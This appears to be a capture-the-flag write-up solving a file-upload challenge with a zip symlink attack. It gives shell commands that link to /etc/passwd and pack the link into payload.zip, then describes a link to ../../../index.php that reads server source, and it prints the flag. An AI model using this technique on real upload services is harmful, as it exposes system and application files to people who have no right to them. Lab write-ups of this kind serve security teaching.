


First, we can create `symlink` inside a zip file, as shown here [symbolic soft link in zip](https://clammy-snowstorm-0d2.notion.site/symbolic-soft-link-05ca57bf671a42acae52cfba49f19cb5)

I'm using this script
```py

```

However, we can simply also execute those lines:
```bash
ln -s /etc/passwd symlink
zip --symlink payload.zip symlink

### checking
unzip payload.zip -d extracted/
ls -l extracted/
```
So, here you can see the creation using cmd: 


And here you can see using the script:


Okay, now let's adjust the content, we want to create file which is called `data.txt`, which will be symlink to `../../../index.php`
Because we need to go down, in the hierarchy of directories:
```
ch51/tmp/upload/688fd0b03c9c86.85044017/../../../index.php
```

So, I adjust the script, and then uploaded `payload.zip`

When accessing `data.txt` on its path, we simply going to `../../../index.php`, which gives us the data.


**Flag:** **_`N3v3r_7rU5T_u5Er_1npU7`_**
